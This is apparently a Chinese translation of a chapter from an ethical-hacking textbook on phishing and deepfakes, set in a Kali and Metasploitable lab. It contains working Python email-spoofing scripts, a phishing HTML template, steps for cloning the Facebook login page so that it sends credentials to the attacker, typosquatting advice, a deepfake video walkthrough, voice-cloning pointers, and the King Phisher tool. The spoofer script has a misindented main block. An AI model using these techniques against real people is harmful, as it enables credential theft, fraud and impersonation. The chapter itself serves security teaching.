





## 第八章：网络钓鱼与深度伪造**

*不要相信网络上的任何东西，除了这一条。当然，包括这一条，我想也是。*

– 道格拉斯·亚当斯


黑客使用*社会工程*技术来诱骗受害者让他们访问自己的系统。社会工程是利用技术在心理上影响一个人行为的手段。这些技术曾被用来窃取密码、破坏政府和操纵选举。

你可能熟悉那些试图诱导用户采取特定行动的社会工程攻击，这些攻击被称为*网络钓鱼*攻击。但精明的计算机用户通常能够迅速识别伪造的电子邮件，并且垃圾邮件过滤器会迅速根据内容和拼写错误筛除伪造邮件，这意味着粗糙的攻击很容易被发现。

然而，在合适的诱饵下，网络钓鱼攻击可以非常成功。在本章中，我们将介绍三种社会工程技术，允许黑客伪造电子邮件、网站和视频，接着我们将把这些技术结合成一个协调一致的攻击。

### 一种复杂而狡猾的社会工程攻击

这里有一个例子，展示了你可以使用本章介绍的技术进行的攻击。攻击从黑客发送一封来自 Facebook 的伪造邮件开始，声称受害者在一张照片中被标记。当受害者点击邮件中的链接时，他们会被引导到一个假的 Facebook 登录页面。在尝试登录后，受害者会被重定向到正确的 Facebook 登录页面，他们的用户名和密码被发送给黑客。现在，受害者将能够成功登录，并可能认为他们只是第一次输入错误的密码。

基于电子邮件的社会工程攻击可以与基于媒体的社会工程攻击相结合。例如，黑客可能还会制作一条配偶的语音邮件或视频信息，告诉受害者期待一封特定的电子邮件或短信。或者他们可能会制作一段 CEO 的深度伪造视频，指示员工们期待一封特定的电子邮件。

### 伪造电子邮件

要理解攻击者如何发送伪造的电子邮件，首先你需要了解电子邮件是如何工作的。图 7-1 展示了电子邮件交换过程的概览。



*图 7-1：电子邮件交换过程*

电子邮件依赖于一组*邮件服务器*，每个电子邮件域（例如，*@virginia.edu*）都与一个或多个邮件服务器关联，这些服务器会将传入的消息分类到相应的邮箱中，并将外发邮件发送到其他邮件服务器。当*alice@companyX.com*想要发送邮件给*john@companyY.com*时，她将邮件上传到公司邮件服务器，然后将邮件放入外发队列中。一旦邮件排到外发队列的最前面，服务器会进行 DNS 查询以发现 John 的邮件服务器的 IP 地址。

接下来，Alice 的邮件服务器与 John 的邮件服务器建立 TCP 连接，并使用*简单邮件传输协议（SMTP）*将邮件发送到 John 的邮件服务器。SMTP 是一个基于文本的协议，允许邮件服务器交换信息。协议的安全版本 SMTPS 通过 TLS 连接交换消息。

当 John 的邮件服务器接收到 Alice 的邮件时，它会将邮件放入 John 的邮箱。然后，John 通过连接到公司的邮件服务器来获取邮件。

#### *执行 DNS 查找邮件服务器*

你可以通过使用`dig`命令来自己查找某人的邮件服务器。例如，让我们发现* [gmail.com](http://gmail.com) *邮件服务器的 IP 地址和 URL。为此，我们使用`mx`标志来显示 MX（邮件交换器）记录，其中包含有关邮件服务器的信息：

```
  kali@kali:~$ dig mx gmail.com

        ...

  ;; ANSWER SECTION:
➊ gmail.com.3435INMX5 gmail-smtp-in.l.google.com.

  gmail.com.3435INMX10 alt1.gmail-smtp-in.l.google.com.

  gmail.com.3435INMX40 alt4.gmail-smtp-in.l.google.com.

        ...
```

有多个邮件服务器，每个服务器都分配了一个优先级。数字最小的邮件服务器➊优先级最高，你应该首先连接这个服务器。所以，*gmail-smtp-in.l.google.com*是一个接受端口 25 连接的 SMTP 服务器。

#### *与 SMTP 通信*

SMTP 通信就像任何对话一样——当然，有一些特殊的代码。让我们来看看这些消息，以更好地理解协议是如何工作的。

黑客攻击你不拥有的机器是非法且不道德的（当然，我们最终会黑客 SMTP），所以我们使用在 Metasploitable 虚拟机的端口 25 上运行的 SMTP 服务器。确保 Kali Linux 和 pfSense 正在运行。接下来，启动 Metasploitable 虚拟机并使用用户名**msfadmin**和密码**msfadmin**登录。运行以下命令获取它的 IP 地址：

```
msfadmin@metasploitable:~$ ifconfig eth0

   eth0    Link encap:Ethernet  HWaddr 00:17:9A:0A:F6:44
➊ inet addr: 192.168.1.101   Bcast:192.168.1.255  Mask:255.255.255.0
```

`inet addr:` 后面的值➊是 IP 地址。请记住，这个地址在你的实验室环境中可能会有所不同。

使用`netcat`在 Kali Linux 虚拟机上连接到该 IP 地址的端口 25，运行以下命令：

```
kali@kali:~$ nc 192.168.1.101 25
Server: 220 metasploitable.localdomain ESMTP Postfix (Ubuntu)
```

连接建立后，服务器将响应一个`220`代码，表示你已成功连接。在这里，你还可以看到 Metasploitable 机器使用的是一个开源的 Postfix 邮件服务器，它支持*扩展简单邮件传输协议（ESMTP）*。

一旦收到`220`消息，使用`HELO`消息进行回应。是的，它真的是`HELO`（不是拼写错误）。我已经将客户端请求标记为*Client:*，将服务器回应标记为*Server:*，以便更清晰。这些标签不是交换过程的一部分。

这就是欺骗开始的地方。在你的`HELO`消息中，你可以假装成任何你想要的人。这里，我们假装是一个*secret.gov*的服务器：

```
Client: HELO secret.gov
Server: 250 metasploitable.localdomain
```

当服务器收到我们的消息时，它应该会回应一个`250`消息，确认已接收。有些邮件服务器还会附带一个有趣的消息，比如“gmail 服务器为您服务”。现在，你也知道了你发送邮件的服务器的身份。

现在欺骗更加深入：我们假装是从`head@secret.gov`发送邮件：

```
Client: MAIL FROM: <head@secret.gov>
Server: 250 2.1.0 Ok
```

服务器回应一个`250 Ok`的消息。太好了，它相信我们。接下来，我们发送一个`RCPT TO:`消息，表示邮件的接收者。假设我们是要发送给`sys`账户：

```
Client: RCPT TO:<sys>
Server: 250 2.1.5 Ok
```

如果 Metasploitable 机器有一个相关域名，比如*virginia.edu*，我们本应该发送`RCPT TO: <sys@virginia.edu>`。

如果这个邮件地址在服务器上有注册，它将以`250 Ok`的消息回应，如下所示。否则，它会回应一个错误代码。

你可能已经在想，黑客可以利用这种行为从服务器中恢复一份邮件列表，但现在先把这些想法放一边。接下来是发送邮件正文。`DATA`命令通知服务器我们准备好上传邮件了。

```
Client: DATA
Server: 354 End data with <CR><LF>.<CR><LF>
```

服务器回应一个`354`消息，表示它准备接收邮件。它还会提供如何结束邮件的指示。在这种情况下，你可以用`<CR><LF>.<CR><LF>`来结束邮件，其中`<CR>`和`<LF>`分别表示*回车*和*换行*字符。这些是从电脑键盘与打字机相似的年代传下来的传统字符。（SMTP 协议发明于 1982 年，尽管年代久远，现代的邮件服务器如 Gmail 仍在使用它。）

这是我们发送的邮件：

```
Client:

    From: "The Boss Lady" <head@secret.gov>

    Subject: Hello SYS

    Click This link <a href="url">link text</a>

    Your Enemy, someone

    .
Server: 250 2.0.0 Ok: queued as B16A9CBFC
Client: QUIT
Server: 221 2.0.0 Bye.
```

为了验证伪造的邮件是否被正确接收，在你的 Metasploitable 虚拟机上运行以下命令，查看`sys`的邮箱：

```
msfadmin@metasploitable:~$ sudo cat /var/spool/mail/sys
```

你应该会看到来自`head@secret.gov`的消息，消息正文是你输入的内容：

```
...
From: "The Boss lady" <head@secret.gov>
Subject: Hello SYS
Message-Id: <20200718011936.45737CBFC@metasploitable.localdomain>
Date: Sat, 17 Jul 2022 21:19:14 -0400 (EDT)
To: undisclosed-recipients:;

Click This link <a href="url">link text </a>
Your Enemy,
someone
```

恭喜！你已经发送了第一封假邮件。

#### *编写一个邮件伪造器*

手动执行 SMTP 协议可能会很繁琐，所以让我们编写一个简短的 Python 程序，利用你刚学到的过程发送一封假邮件。在你的 Kali Linux 虚拟机上，创建一个名为*spoofer*的新文件夹。然后在*spoofer*文件夹内创建一个名为*espoofer.py*的 Python 文件，使用你喜欢的 IDE 或文本编辑器打开它，并复制以下代码，它通过 TCP 连接执行 SMTP 协议。

```
import sys, socket

size = 1024

def sendMessage(smtpServer, port, fromAddress,

                toAddress,message):

    IP = smtpServer

    PORT = int(port)

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((IP, PORT))  # Open socket on port

    print(s.recv(size).decode())  # display response

 ➊ s.send(b'HELO '+ fromAddress.split('@')[1].encode() +b'\n')

 ➋ print(s.recv(size).decode())

    # send MAIL FROM:

    s.send(b'MAIL FROM:<'+ fromAddress.encode() + b'>\n')

    print(s.recv(size).decode())

    # send RCPT TO:

    s.send(b'RCPT TO:<'+ toAddress.encode() + b'>\n')

    print(s.recv(size).decode())

    s.send(b"DATA\n")  # send DATA

    print(s.recv(size).decode())

    s.send(message.encode() + b'\n')

 ➌ s.send(b'\r\n.\r\n')

    print(s.recv(size).decode())  # display response

    s.send(b'QUIT\n')  # send QUIT

    print(s.recv(size).decode())  # display response

    s.close()

    def main(args):

     ➍ smtpServer = args[1]

        port = args[2]

        fromAddress = args[3]

        toAddress = args[4]

        message = args[5]

        sendMessage(smtpServer, port, fromAddress,

                    toAddress, message)

    if __name__ == "__main__":

        main(sys.argv)
```

我们将第一条消息发送到服务器，伪装成与发件人地址相关联的邮件服务器 ➊。接下来，我们打印出从服务器接收到的响应 ➋。在结束消息之前，我们继续发送数据，通过发送`<CR><LF>.<CR><LF>`来结束消息 ➌。Python 将`<CR>`和`<LF>`字符表示为`\r`和`\n`。最后，我们读取命令行参数，指定目标邮件服务器和电子邮件头部 ➍。

现在我们来运行 Python 程序。打开终端并导航到包含*espoofer.py*的文件夹：

```
kali@kali:~$ cd ~/Desktop/spoofer
```

使用这些参数运行*espoofer.py*程序：

```
kali@kali:~$ python3 espoofer.py <Metasploitable IP address> 25 hacking@virginia.edu sys
"Hello from the other side! "
```

这将从`hacking@virginia.edu`发送一封电子邮件到`sys`，邮件正文为“Hello from the other side！”。

这种攻击并不总是有效；某些 SMTP 服务器可能实现了防御性功能，如*基于域的消息认证、报告和一致性（DMARC）*，允许接收 SMTP 服务器验证 SMTP 消息是否来自授权的 IP 地址。不过，总是有其他方法可以耍花招。例如，你可以注册一个与目标域名相似的域名。像 URLCrazy 这样的工具可以帮助你快速查找与目标域名相似的域名。为了减少垃圾邮件，一些 ISP 已经开始封锁 25 端口上的数据包。因此，如果你想审核虚拟环境外的系统，你需要通过*虚拟私人网络（VPN）*来路由你的流量。

#### *伪造 SMTPS 电子邮件*

在之前的示例中，我们通过未加密的通道发送了 SMTP 消息。现在让我们来看一下 SMTPS，它通过 TLS 加密的通道发送 SMTP 消息。我们的 Metasploitable 虚拟机不支持 SMTPS，因此我们将连接到支持 SMTPS 的 Gmail SMTP 服务器，并向自己发送一封伪造的电子邮件。

如果你的 ISP 允许，或者你有 VPN，可以使用命令`openssl s_client`连接到 Google 的 SMTP 服务器（*gmail-smtp-in.l.google.com*），该服务器接受来自其他 SMTP 服务器的传入 SMTP 连接。连接后，你可以手动执行交换并发送伪造的电子邮件。

```
kali@kali:~$ openssl s_client -starttls smtp -connect gmail-smtp-in.l.google.

			 com:25 -crlf -ign_eof
```

现在我们来编写一个程序，使用 SMTPS 与邮件服务器进行交互。有些服务器仅支持通过 SMTPS 进行加密通信，因此并非总能使用未加密的 SMTP 来伪造邮件。Python 的`smtplib`库封装了我们在本章之前讨论的功能。我们将使用它通过 SMTPS 发送伪造的电子邮件。打开你喜欢的文本编辑器，复制以下代码，并将程序命名为*secureSpoofer.py*：

```
   from smtplib import SMTP

   from email.mime.text import MIMEText

   from email.mime.multipart import MIMEMultipart

   receiver = 'victimEmail'

   receiver_name = 'Victim Name'

   fromaddr = 'Name <spoofed@domain.com>'

   smtp_server = "gmail-smtp-in.l.google.com"

   msg = MIMEMultipart()

   msg['Subject'] = "Urgent"

   msg['From'] = fromaddr

➊ with open('template.html', 'r') as file:

       message = file.read().replace('\n', '')

       message = message.replace("{{FirstName}}", receiver_name)

       msg.attach(MIMEText(message, "html"))

       with SMTP(smtp_server, 25) as smtp:

         ➋ smtp.starttls()

            smtp.sendmail(fromaddr, receiver, msg.as_string())
```

我们将从文件中读取邮件内容 ➊，而不是手动输入。这将允许我们使用电子邮件模板，使伪造的电子邮件看起来更真实。这些模板是用 HTML 编写的，你可以通过在网上搜索“email phishing templates”找到它们。加载邮件内容后，启动 TLS 会话 ➋。

这是一个电子邮件模板示例（*template.html*）：

```
<html>

<head>

</head>

<body style="background-color:#A9A9A9">

<div class="container" >

   <div class="container" style="background-color:#FFF;">

     <br><br>

  ➊ <h1>Breaking News, {{FirstName}}</h1>

  ➋ <h3>You have been identified in a Deep Fake!</h3>

     <p>A Deep Fake video of you has been uploaded to YouTube yesterday and

     already has over 2,400 views. </p>

     <p>Click the link below to view the video and take it down! </p>

  ➌ <a href="https://www.google.com">Your video</a>

     <br><br><hr>

     <p>Best regards,</p>

     <p>The Deep Fake Association</p>

     <p></p>

   </div>

</div>

</body>

</html>
```

通过编辑文本 ➋、名称 ➊ 和链接 ➌ 来使其独特。太好了，你知道如何发送一封伪造的电子邮件了。

### 伪造网站

我们将在攻击过程中发送的电子邮件中包含一个链接，该链接会将用户引导到一个伪造的网站。为了说服用户输入他们的凭证，我们会将这个网站做成一些流行网站登录页面的克隆，这其实出奇的简单。

网页由 HTML 和 JavaScript 文件组成。每次浏览器访问页面时，它都会下载这些 HTML 和 JavaScript 文件的副本，并使用它们来渲染页面。当黑客访问登录页面时，他们也会获得这些文件的副本，并通过将这些文件托管在自己的服务器上，黑客可以展示一个与真实登录页面完全相同的网页。

更糟糕的是：通过修改本地页面的 HTML 或 JavaScript 代码，黑客可以将页面配置为将受害者的用户名和密码发送到黑客那里，而不是发送到原网站。一旦用户登录，伪造的页面可能会将他们重定向到真实的登录页面，用户可以重新输入凭证并成功登录。受害者会以为第一次尝试失败了，完全没有意识到他们的密码已被盗。

让我们克隆 Facebook 登录页面。在 Kali Linux 中打开 Firefox，并访问 *[`www.facebook.com/`](https://www.facebook.com/)*。通过右键点击页面并选择 **保存页面为** 来保存该页面及相关资源，如 图 7-2 所示。



*图 7-2：使用 Firefox 保存网页副本*

将文件命名为 *index.html* 并保存到名为 *SocialEngineering* 的桌面文件夹中。*index.html* 页面是浏览器访问任何网页时首先打开的页面，因此通过将该页面保存为 *index.html*，用户的浏览器会在他们访问你的网站时自动打开它。

现在，你如何修改网页，使其将用户的用户名和密码发送回黑客呢？登录页面通常依赖于 HTML 的 `<form>` 标签。下面的代码片段表示一个基本的 HTML 表单：

```
<form action="login_service.php" method="post">

    <input type="text" placeholder="Enter Username" name="uname" required>

    <input type="password" placeholder="Enter Password" name="pass" required>

    <button type="submit">Login</button>

</form>
```

`<form>` 标签通常包含一个属性，指定将表单数据发送到哪里。在此示例中，数据被发送到 *login_service.php*。黑客可以通过将 `<form>` 标签中的 URL 替换为自己的地址，来将表单数据发送到自己那里。这将把表单的所有数据发送到黑客的页面。记住，浏览器中看到的任何内容都可以通过 HTML、CSS 和 JavaScript 复制。你可能只需要编写一些额外的代码。

打开终端，并通过运行以下命令导航到包含 HTML 文件的文件夹：

```
kali@kali:~$ cd ~/Desktop/SocialEngineering
```

要通过我们自己的 Python HTTP 服务器提供此文件，输入以下命令：

```
kali@kali:~$ sudo python3 -m http.server 80
```

**注意**

*低于 1024 的端口只能通过 root 权限打开。*

Python 3 的 `https.server` 工具已预装在您的 Kali Linux 虚拟机中。要测试您的恶意网站，请保持终端开启并切换到您的 Ubuntu 虚拟机。接着，通过打开 Firefox 浏览器并输入 Kali Linux 虚拟机的 IP 地址来访问伪造网站；例如 `192.168.1.103`。如果您操作正确，您应该能看到类似于图 7-3 中的 Facebook 登录页面的伪造副本。



*图 7-3：Kali Linux 虚拟机上托管的伪造 Facebook 登录页面*

如果仔细查看网址栏，您会注意到页面没有加密，而 Facebook 通常会加密，而且网址也不是 *[facebook.com](http://facebook.com)*。不用担心：黑客有一些欺骗手段可以隐藏这一点。例如，黑客可以注册一个类似 Facebook 的域名。我检查了 GoDaddy 域名搜索，发现像 *fecabeok.com* 或 *facebvvk.com* 这样的域名仍然可用。用户需要仔细查看网址栏，才能发现自己被骗了。如果您匆匆一瞥 *[`wwww.fecabeok.com/`](https://wwww.fecabeok.com/)*，您会注意到有什么问题吗？我们称这种使用看起来像合法网址的行为为*域名抢注*。像 URLCrazy 这样的工具可以帮助您轻松识别抢注的域名。

现在您已经知道如何创建一个伪造网站了。接下来，让我们讨论如何创建伪造视频。

### 创建深度伪造视频

*深度伪造*是通过机器学习算法生成的伪造图像、视频或声音。黑客可能通过创建某个公众人物的深度伪造视频来激起公众的不安。或者，他们可能通过制作 CEO 指示员工访问恶意网站重置凭证的深度伪造视频，来窃取员工的用户名和密码。黑客还可能制作一个配偶的深度伪造语音信箱，指示与他们在某个地方见面或做某些事情。

在这一部分，我们将生成一个鲍勃·马利（Bob Marley）像奥巴马总统一样说话的深度伪造视频。我们将使用由 Aliaksandr Siarohin 等人开发的机器学习模型，该模型在他们的论文《用于图像动画的首阶运动模型》中有详细介绍。这个模型的特别之处在于它从输入视频中学习运动，并用这些运动来动画化图像。这使得它比早期需要用户提供多个图像的技术更高效。

这个过程分为两个步骤。在第一个步骤中，视频被输入到*关键点提取算法*中，算法学习所需的稀疏关键点集合，以便在输入视频中建模面部运动。这个输入视频被称为*驱动视频*，因为它将用于驱动图像的动画。图 7-4 展示了从奥巴马总统的演讲驱动视频中提取的关键点。



*图 7-4：从输入视频学习关键点和动作*

在提取每一帧的关键点后，它们将被发送到一个机器学习算法，该算法学习这些点如何移动。这个过程被称为*运动检测*。

在第二步中，机器学习算法扭曲输入的图片并生成动画视频。图 7-5 展示了生成过程的概览。



*图 7-5：使用学习到的视频来动画化静态图像*

现在你将生成自己的深度伪造视频。你可以通过访问*[`youtu.be/8DZHYL0qReA`](https://youtu.be/8DZHYL0qReA)*来查看生成的视频。

#### *访问 Google Colab*

我们不需要自己设置机器学习开发环境，而是使用 Google 的 Colab 笔记本。Google Colab 是一个免费服务，提供对 Google 计算基础设施的访问。我已经修改了 Károly Zsolnai-Fehér 的开源实现，创建了一个简单的 Colab 笔记本，包含生成深度伪造视频所需的所有步骤。你可以通过以下链接访问 GitHub 仓库来跟随操作：*[`github.com/The-Ethical-Hacking-Book/DeepFakeBob`](https://github.com/The-Ethical-Hacking-Book/DeepFakeBob)*。

在 Colab 笔记本中，滚动到页面底部。你应该会看到一个类似于图 7-6 的视频。点击播放。如果视频能播放，说明你的工作环境已正确配置。


*图 7-6：最终静态图片、驱动图像和动画图像的屏幕截图。*

我们将修改现有的程序，让你能够生成自己的深度伪造视频。

#### *导入机器学习模型*

首先将 Siarohin 等人的代码库导入到你的 Colab 笔记本中。这个代码库包含了加载我们将使用的机器学习模型的代码。点击下方每行旁边的播放按钮来运行这些命令：

```
!git clone https://github.com/AliaksandrSiarohin/first-order-model
cd first-order-model
```

`!` 告诉 Colab 笔记本以 Shell 命令的形式运行命令。接下来，连接你的 Google 云端硬盘文件夹到 Colab。Colab 笔记本将从你的 Google 云端硬盘读取驱动视频和目标照片，以及必要的配置文件。

创建一个名为*DeepFake*的 Google Drive 文件夹，并将你的驾驶视频和目标图像上传到该文件夹。GitHub 仓库 *[`github.com/The-Ethical-Hacking-Book/DeepFakeBob`](https://github.com/The-Ethical-Hacking-Book/DeepFakeBob)* 包含了奥巴马总统的示例驾驶视频和鲍勃·马利的目标图像。将这些文件连同 *vox-adv-cpk.pth.tar* 一起复制到你的 *DeepFake* 文件夹中。这个文件包含了模型的*权重*，即与人工神经网络中各连接点相关的值。*人工神经网络*是试图模拟大脑中生物神经元行为的计算机模型。当大脑学习时，它会在神经元之间形成新的连接。类似地，人工神经网络在学习时也会形成新的连接。权重为 1 表示神经元连接到另一个神经元，权重为 0 则表示它们没有连接。人工神经网络中的权重值可以在 0 和 1 之间的任何值，表示它们的连接程度。

上传文件到 Google Drive 文件夹后，切换到 Colab 笔记本，并通过运行以下命令连接你的 Google Drive：

```
from google.colab import drive
drive.mount('/content/gdrive/')
```

Colab 笔记本将要求你获取身份验证代码。点击它提供的链接，并将身份验证代码复制粘贴到标记为 Colab 的框中。确保你已通过在 *DeepFake* 目录中运行以下命令成功连接工作区：

```
ls /content/gdrive/My\ Drive/DeepFake/
Obama.mp4  bob.png   vox-adv-cpk.pth.tar
```

如果你看到列出所有三个文件，说明你已成功上传文件并连接了 Google Drive。

接下来，运行以下代码以导入并调整图像和视频的大小：

```
➊ import imageio

   import numpy as np

   import matplotlib.pyplot as plt

   import matplotlib.animation as animation

   from skimage.transform import resize

   from IPython.display import HTML

➋ source_image = imageio.imread('/content/gdrive/My Drive/DeepFake/bob2.png')

   driving_video = imageio.mimread('/content/gdrive/My Drive/DeepFake/Obama.mp4')
➌ source_image = resize(source_image, (256, 256))[..., :3]

   driving_video = [resize(frame, (256, 256))[..., :3] for frame in driving_video]
```

我们导入获取并调整图像大小所需的库 ➊。接下来，我们导入鲍勃·马利的源图像和奥巴马总统的驾驶视频 ➋。然后，我们将源图像和驾驶视频都调整为 256 *×* 256 像素 ➌。这是我们的模型期望的图像大小。

让我们加载关键点检测器 `(kp\_detector)` 和媒体生成器模型的权重：

```
from demo import load_checkpoints
generator, kp_detector = load_checkpoints(config_path='config/vox-256.yaml',

                    checkpoint_path='/content/gdrive/My Drive/DeepFake/vox-adv-cpk.pth.tar')
```

加载模型可能需要一些时间。完成该过程后，运行以下代码块，将这些模型应用于检测关键点并生成动画：

```
➊ from demo import make_animation
➋ predictions = make_animation(source_image,

                          driving_video, generator,

                          kp_detector, relative=True)
```

我们导入 `make_animation()` 函数 ➊，该函数应用了关键点检测和媒体生成器模型。然后，我们获取预测结果 ➋，即代表动画图像的帧。

现在我们将把这些帧组合在一起，创建深度伪造视频：

```
def display(source, driving, generated=None):

    fig = plt.figure(figsize=(8 + 4 * (generated is not None), 6))

    ims = []

    for i in range(len(driving)):

        cols = [source]

        cols.append(driving[i])

        if generated is not None:

            cols.append(generated[i])

        im = plt.imshow(np.concatenate(cols, axis=1), animated=True)

        plt.axis('off')

        ims.append([im])

    ani = animation.ArtistAnimation(fig, ims, interval=50, repeat_delay=1000)

    plt.close()

    return ani

HTML(display(source_image, driving_video, predictions).to_html5_video())
HTML(display(source_image, driving_video, predictions).to_html5_video())
```

如果你一切操作正确，应该能看到一个 HTML 视频播放你生成的视频。恭喜！你已经制作了你的第一个深度伪造视频。现在去 YouTube 分享你的视频，别忘了标记本书。

### 练习

以下练习旨在通过引入语音克隆和 *King Phisher* 工具，扩展你对深度伪造和钓鱼攻击的理解。*语音克隆* 是一种技术，它使计算机能够模仿一个人的声音。King Phisher 工具允许你大规模执行钓鱼攻击。

#### *语音克隆*

在本章中，我们生成了一个深度伪造视频。但这个视频只动画化了图片，并没有生成任何声音。语音克隆技术使用机器学习来模仿一个人的声音。Google 的一组研究人员开发了一种先进的语音克隆器，称为 Tacotron 2。你可以通过访问 *[`google.github.io/tacotron/publications/tacotron2/index.html`](https://google.github.io/tacotron/publications/tacotron2/index.html)* 来收听 Tacotron 2 的音频样本。该网页还包含了人声和机器生成的声音并排展示。你能分辨出区别吗？

Tacotron 2 只需要五秒钟的音频就能模仿某人的声音。虽然 Google 尚未发布其 Tacotron 2 的实现，但其他开发者已创建了 Google 在其论文中介绍这一概念时所描述的系统。你可以在 *[`github.com/Rayhane-mamah/Tacotron-2`](https://github.com/Rayhane-mamah/Tacotron-2)* 找到一个实现的链接。

设置这个系统可能是一项艰巨的任务。别担心：你可以随时尝试其他更易于实现的早期语音克隆系统，例如 *[`github.com/CorentinJ/Real-Time-Voice-Cloning`](https://github.com/CorentinJ/Real-Time-Voice-Cloning)* 上的实现。试着生成一个名人的语音克隆。如果你不想编码，还有像 Descript *[`www.descript.com/`](https://www.descript.com/)* 这样的商业工具，只需点击几下鼠标，就能克隆你自己的声音。

#### *大规模钓鱼攻击*

King Phisher 是一个大规模钓鱼工具，随 Kali Linux 一起提供。你可以利用这个练习来熟悉该工具及其功能。通过运行以下命令启动必要的后台服务：

```
kali@kali:~$ sudo service postgresql start
kali@kali:~$ sudo service king-phisher start
```

然后，通过在 **Kali 应用菜单** 中搜索启动 King Phisher 应用程序 (图 7-7)。启动应用程序需要几秒钟。


*图 7-7：King Phisher 界面*

启动 King Phisher 后，你可以使用 Kali Linux 机器的用户名和密码登录，因为服务器托管在本地。现在，开始创建一个新的钓鱼攻击活动吧。记得要遵循道德规范！

#### *SMTP 审计*

另一个用于测试 SMTP 服务器安全性的好工具是 `swaks`，它已预装在 Kali Linux 中。你可以通过一个命令发送测试邮件：

```
kali@kali:~$ swaks --to sys --server <Metasploitable IP address>
```

以下是运行命令后的结果片段：

```
=== Trying 192.168.1.101:25...

=== Connected to 192.168.1.101.

<-  220 metasploitable.localdomain ESMTP Postfix (Ubuntu)

 -> EHLO kali

<-  250-metasploitable.localdomain

             ...

<-  250 2.1.5 Ok

 -> DATA

<-  354 End data with <CR><LF>.<CR><LF>

 -> Date: Fri, 13 May 2022 15:46:17 -0500

 -> To: sys

 -> From: kali@kali

 -> Subject: test Fri, 13 May 2022 15:46:17 -0500

 -> Message-Id: <20201113154617.001295@kali>

 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/

 ->

 -> This is a test mailing

             ...

 ->.

<-  250 2.0.0 Ok: queued as BADADCBFC

 -> QUIT

<-  221 2.0.0 Bye

=== Connection closed with remote host.
```

你可以通过运行以下命令查看 `swaks` 可以做的所有令人惊叹的事情：

```
kali@kali:~$ swaks --help
```
